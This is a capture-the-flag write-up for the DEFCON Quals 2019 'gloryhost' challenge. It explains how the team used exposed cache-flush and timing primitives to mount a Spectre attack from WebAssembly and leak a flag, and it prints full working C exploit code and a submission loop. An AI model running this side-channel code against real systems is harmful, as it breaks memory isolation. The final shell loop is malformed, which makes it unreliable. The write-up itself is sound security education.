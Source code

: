 ```yaml
---
layout: post
title: DEFCON Quals 2019, Gloryhost
date:   2019-05-13 18:43:49 -0400
categories: ctf defcon quals 2019
comments: true
---
```


<img src="/assets/gloryhost.jpg">

Author: mattypiper

Contributors: mattypiper, fringe

## Description

gloryhost is a 64-bit Linux ELF network service written in Rust. It accepts compiled WebAssembly programs on port 9999
and executes the wasm program in a seccomp filtered sandbox. After figuring out how to generate a wasm program written in
C using wasi-sdk, we were able to load our code into the service using base64. The service then responds with an error message expecting
a certain export that was not found:

> your code makes me feel funny: unable to resolve entry point: Export not found: this_is_what_ive_got

Defining this function in C and setting it as the entry point allows the code to execute.

```c
int this_is_what_ive_got()
{
    return 0;
}
```

```bash
/opt/wasi-sdk/bin/clang -o test.wasm -Wl,-e,this_is_what_ive_got test.c
```

Gloryhost appears to print the return value of your function and execute the C code.
Attempting to execute libc functions such as `open()` and `read()`
results in the service dying prematurely with a trap:

> your code makes me feel funny: unable to execute entry point: WebAssembly trap occured during runtime: unknown

The service disables syscalls with seccomp, hence the WebAssembly trap. At this point we discovered a set of functions in the
gloryhost namespace that were interesting.

1. `wasi_debug_flush` executes the x86 clflush instruction on the pointer argument
1. `wasi_check_data`, `wasi_get_data_size` and the`wasi_get_data*` functions were recognized as a set of functions that implement
a few of the "primitives" required to execute the [Spectre](https://spectreattack.com/spectre.pdf) attack (speculative execution cache side channel).
1. `wasi_debug_read` performs a C-style read of the pointer argument, required for Spectre.
1. `wasi_debug_ts` executes the x86 `rdtsc` instruction, a timing instrument that can be used to execute the Spectre attack.

Inspection with strace and gdb revealed that the challenge flag was being loaded into the .bss entry `_data6` at 0xe86120.
This memory is inaccessible using the `wasi_get_data` functions, as they were only provided for memory areas data2 thru data5.

At this point, we laid out the plan: Call the `gloryhost::wasi` functions from our C code in a Spectre-style attack
to read the flag from memory.

After learning about wasm, wasi, wat, and fumbling around with a variety of build tools, we settled on 
using [wasi-sdk](https://github.com/CraneStation/wasi-sdk/) to generate wasm blobs from C code.
To call the external code, we had to define the functions as `extern` and use the linker directive 
`-Wl,--allow-undefined` to avoid link errors. Getting the function arguments and return values to line up
was aided by the dynamic WebAssembly linker built into gloryhost, which printed helpful messages such as:

> your code makes me feel funny: unable to resolve entry point: Parameters of type [] did not match signature [I32] -> [I32]

For getting the flag itself, the only instrument provided to send data back to the client was via the 32-bit return value
of the `this_is_what_ive_got` function. For example, returning 0xdeadbeef from `this_is_what_ive_got` would print:

> YOU'VE GOT deadbeef

We based our Spectre implementation on an
[existing Spectre PoC from ErikAugust](https://gist.github.com/ErikAugust/724d4a969fb2c6ae1bbd7b2a9e3d4bb6).

As we implemented the Spectre attack, we had to take care to avoid using pointers or array indexing. This was because
the wasi-sdk only supported 32-bit mode. So we wrote the function prototypes replacing pointers with uint64_t, as follows:

```c
extern int64_t debug_ts();  // rdtsc
extern void debug_flush(uint64_t);  // clflush
extern void debug_read(uint64_t);
extern void check_data(int32_t);  // "victim function"
extern uint64_t get_data_size();
extern uint64_t get_data5();
```

And after some more thought, we realized that direct pointer/array accesses would not even work as expected
when crossing the boundary from WebAssembly to C/amd64.

Anyway, after tuning the cache timing threshold, we were able to read the flag one byte at a time (we kept
the code from the PoC that also generated a score and put that in the return value as well to be able to gauge
the confidence of each flag byte).

## Solution

```c
#include <stdio.h>
#include <string.h>
#include <stdlib.h>
#include <unistd.h>
#include <fcntl.h>
#include <errno.h>

extern int64_t debug_ts();  // rdtsc
extern void debug_flush(uint64_t);  // clflush
extern void debug_read(uint64_t);
extern void check_data(int32_t);  // "victim function"
extern uint64_t get_data_size();
extern uint64_t get_data5();

#define CACHE_HIT_THRESHOLD (600) /* assume cache hit if time <= threshold */

/* aliases from github poc to gloryhost:
     array2 = get_data5()
     array1_size = get_data_size()
     victim_function = check_data()
     array1 = get_data3()
     flag is in _data6  */

void readMemoryByte(uint32_t malicious_x, uint8_t value[2], int score[2])
{
    int results[256];
    int tries, i, j, k, mix_i;
	unsigned int junk = 0;
    uint64_t time1, time2;
    size_t training_x, x;
    volatile uint8_t* addr;

    for (i = 0; i < 256; i++)
        results[i] = 0;

    for (tries = 999; tries > 0; tries--) {
        // flush data5 from cache
        for (int i = 0; i < 256; i++) {
            uint64_t p = get_data5();
            p += i*512;
            debug_flush(p);
        }

        // 30 loops, 5 training runs per attack
        training_x = tries % 16; // 16 == nelements(array1_size)
        for (j = 29; j >= 0; j--) {
            debug_flush(get_data_size());

            // delay
            for (volatile int z = 0; z < 100; z++);

            // bit twiddling
            x = ((j % 6) - 1) & ~0xFFFF; /* Set x=FFF.FF0000 if j%6==0, else x=0 */
            x = (x | (x >> 16)); /* Set x=-1 if j%6=0, else x=0 */
            x = training_x ^ (x & (malicious_x ^ training_x));

            check_data(x);
        }

        // time reads
        for (int i = 0; i < 256; ++i) {
            mix_i = ((i * 167) + 13) & 255;

            uint64_t addr  = get_data5();
            addr += mix_i * 512;
            time1 = debug_ts();
            debug_read(addr);
			time2 = debug_ts() - time1;
			if (time2 <= CACHE_HIT_THRESHOLD)
				results[mix_i]++;
        }

		j = k = -1;
		for (i = 0; i < 256; i++)
		{
			if (j < 0 || results[i] >= results[j])
			{
				k = j;
				j = i;
			}
			else if (k < 0 || results[i] >= results[k])
			{
				k = i;
			}
		}
		if (results[j] >= (2 * results[k] + 5) || (results[j] == 2 && results[k] == 0))
			break;
	}

	value[0] = (uint8_t)j;
	score[0] = results[j];
	value[1] = (uint8_t)k;
	score[1] = results[k];
}

int this_is_what_ive_got()
{
	uint32_t malicious_x = 0x100 + MALOFFSET; // use compiler argument to "step" this index
	int score[2], len = 2;
	uint8_t value[2];
	readMemoryByte(malicious_x, value, score);
	return (value[0] << 24) | (value[1] << 16) | ((score[0] & 0xff)<<8) | (score[1] & 0xff);
}

int main() {}
```

Compile with:

```sh
/opt/wasi-sdk/bin/clang -DMALOFFSET=1 -Ofast -o solve.wasm \
    -Wl,-e,this_is_what_ive_got -Wl,--allow-undefined solve.c
```

Leak one byte at a time with a script:
```sh
for i in `seq 0 40`; do \
    nc -N gloryhost.quals2019.oooverflow.io 9999; done | \
    /opt/wasi-sdk/bin/clang -DMALOFFSET=$i -Ofast -o solve.wasm \
    -Wl,-e,this_is_what_ive_got -Wl,--allow-undefined solve.c && \
    cat solve.wasm | base64 -w0 | nc -N localhost 9999 | egrep '^YOU' | cut -d' ' -f3 | cut -c1-2| xxd -r -p; \
    done
```
